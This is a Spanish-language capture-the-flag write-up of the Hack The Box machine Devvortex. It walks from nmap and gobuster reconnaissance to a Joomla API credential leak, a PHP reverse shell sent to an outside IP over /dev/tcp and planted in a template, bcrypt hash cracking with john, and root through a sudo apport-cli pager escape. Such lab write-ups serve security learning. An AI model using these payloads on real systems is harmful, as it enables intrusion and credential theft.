






Hack The Box
Maquina: Devvortex
Objetivo: Un sistema operativo Linux con una vulnerabilidad en una aplicación web que lleva al escalamiento de privilegios.
Dificultad: Facil
Fase 1: Escaneo de puertos
Con nuestra herramienta nmap haremos un escaneo con la ip que nos proporciona htb para ver que puertos tiene abiertos y esta utilizando la maquina.
$ nmap -sV 10.10.11.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 03:41 CEST
Nmap scan report for 10.10.11.242
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.72 seconds
Nos indica que esta utilizando el puerto 80, eso significa que la maquina tiene abierta una pagina web que ella misma esta siendo usada de servidor, si utilizamos la direccion ip como url en nuestro navegador podremos verla.
Tambien esta utilizando el 22, eso significa que tiene activo el servicio ssh.
Antes de seguir usaremos este comando de abajo para meter la pagina en nuestro archivos de hosts por que esta maquina tiene el dominio que está en la red de la vpn.
Nos pedira la contraseña al introducir el comando, ya que el archivo hosts necesita permisos de root.
$ echo "10.10.11.242 devvortex.htb" | sudo tee -a /etc/hosts
[sudo] contraseña para pingu:
10.10.11.242 devvortex.htb
Y AHORA SI!

Ahora utilizaremos la herramienta gobuster para descubrir los directorios de la pagina web y efectivamente tenemos tres : Images,css y js.
Para utilizarla necesitamos indicarle en el comando que diccionario utilizar, yo los tengo en el directorio : /home/pingu/Escritorio/Diccionarios pero suelen estar en : /usr/share/wordlists
$ gobuster dir -u http://devvortex.htb/ -w /home/pingu/Escritorio/Diccionarios/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://devvortex.htb/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /home/pingu/Escritorio/Diccionarios/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images (Status: 301) [Size: 178] [--> http://devvortex.htb/images/]
/css (Status: 301) [Size: 178] [--> http://devvortex.htb/css/]
/js (Status: 301) [Size: 178] [--> http://devvortex.htb/js/]
Progress: 207643 / 207644 (100.00%)
===============================================================
Finished
===============================================================
Tambien haremos lo mismo con gobuster pero con los DNS.
gobuster dns -d devvortex.htb -w /home/pingu/Escritorio/Diccionarios/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain: devvortex.htb
[+] Threads: 10
[+] Timeout: 1s
[+] Wordlist: /home/pingu/Escritorio/Diccionarios/common.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.devvortex.htb
Y tambien lo añadiremos a nuestro archivo de hosts la nueva url que ha encontrado.
echo “10.10.11.242 dev.devvortex.htb” | sudo tee –a /etc/hosts
Volveremos a usar la herramienta gobuster con esta nueva direccion haber que encontramos, usando de nuevo el mismo diccionario.
gobuster dir -u dev.devvortex.htb -w /home/pingu/Escritorio/Diccionarios/common.txt
Si entramos en la nueva direccion que nos ha dado gobuster veremos la otra web y en el directorio /robots.txt veremos otros directorios donde nos podemos meter.

LA que nos interesa es "administrador" asi que lo ponemos en nuestra barra de navegador quedando asi : http://dev.devvortex.htb/administrator/ y veremos un subdominio para loguear con una cuenta

Si no fijamos esta hecha en la plataforma Joomla, haciendo una busqueda por internet podemos encontrar una vulnerabilidad en joombla
https://vulncheck.com/blog/joomla-for-rce
Utilizando el comando siguiente podremos enonctrar un usuario y una contraseña
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq
"type": "application",
"id": "224",
"attributes": {
"user": "lewis",
"id": 224
}
},
{
"type": "application",
"id": "224",
"attributes": {
"password": "P4ntherg0t1n5r3c0n##",
"id": 224
user: lewis
password: P4ntherg0t1n5r3c0n##
Pues si nos vamos al login de joomla de antes y introducimos el usuario y la contraseña que hemos descubierto podremos entrar.


Ahora chafardeando un poco nos metemos en System, luego en administrador templates y en Atum Details and Files y a la izquierda veremos muchos archivos .php y el que nos interesa es el "index.php que nos deja editarlo y le meteremos nuestro codigo en la segunda linea y poniendo nuestra ip.
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.44/4444 0>&1'");
Nos pondremos en "escucha" por el puerto 4444 con el codigo
nc -lvnp 4444
Guardaremos el archivo .php dandole a save arriba y....
PUM! estamos dentro!

Usaremos estos comandos en el mismo orden para poner bien la terminal.
script /dev/null -c /bin/bash
stty raw -echo; fg
export TERM=xterm
Y empezaremos con el mysql, introduciendo el usuario y la contraseña que ya teniamos de antes.
mysql -u lewis -p
Contraseña: P4ntherg0t1n5r3c0n##
Una vez dentro introduciremos los comandos y podremos ver la tabla con dos usuarios y sus contraseñas
mysql> show databases;
+--------------------+
| Database |
+--------------------+
| information_schema |
| joomla |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| lewis | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
Guardaremos el codigo de logan en un archivo de texto y con john the ripper lo usaremos para descifrar la contraseña.
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho (?)
1g 0:00:00:15 DONE (2024-04-18 23:44) 0.06337g/s 88.97p/s 88.97c/s 88.97C/s iceman..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Nos conectaremos por ssh con la contraseña y leeremos el archivo que hay para tener la primera flag.
ssh logan@10.10.11.242
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt
4bfa612fe7cd925d3dea39d58e477fce
logan@devvortex:~$
ESCALAR PRIVILEGIOS DE LOGAN A ROOT
Ahora que somos el usuario logan, debemos escalar a root para tener el control total de la maquina, haciendo "sudo -l" nos daremos cuenta que podemos ejecutar "apport-cli" con permisos de sudo
sudo /usr/bin/apport-cli -f
E iremos siguiendo los pasos, le indicaremos que queremos ver el informe con las respuestas : 1,2 y v.
*** What kind of problem do you want to report?
Choices:
1: Display (X.org)
2: External or internal storage devices (e. g. USB sticks)
3: Security related problems
4: Sound/audio related problems
5: dist-upgrade
6: installation
7: installer
8: release-upgrade
9: ubuntu-release-upgrader
10: Other problem
C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1
*** Collecting problem information
The collected information can be sent to the developers to improve the
application. This might take a few minutes.
*** What display problem do you observe?
Choices:
1: I don't know
2: Freezes or hangs during boot or usage
3: Crashes or restarts back to login screen
4: Resolution is incorrect
5: Shows screen corruption
6: Performance is worse than expected
7: Fonts are the wrong size
8: Other display-related problem
C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2
***
To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze
Press any key to continue...
...dpkg-query: no packages found matching xorg
...................
*** Send problem report to the developers?
After the problem report has been sent, please fill out the form in the
automatically opened web browser.
What would you like to do? Your options are:
S: Send report (1.4 KB)
V: View report
K: Keep report file for sending later or copying to somewhere else
I: Cancel and ignore future crashes of this program version
C: Cancel
Please choose (S/V/K/I/C): v
Cuando termine el proceso veremos unos " : " al final, es entonces cuando tendremos que indicarle que queremos usar la bash escribiendo el comando
!/bin/bash
y Estaremos en ROOT!
root@devvortex:/home/logan# cd ..
root@devvortex:/home# ls
logan
root@devvortex:/home# cd ..
root@devvortex:/# ls
bin boot cdrom dev etc home lib lib32 lib64 libx32 lost+found media mnt opt proc root run sbin srv sys tmp usr var
root@devvortex:/# cd root
root@devvortex:~# ls
root.txt
root@devvortex:~# cat root.txt
25d8433417d6a35802076badf2ba1f13
root@devvortex:~#
Y hasta aqui mi primera writeup de la maquina devvortex! Ha sido un placer ser root de esta fantasttica maquina!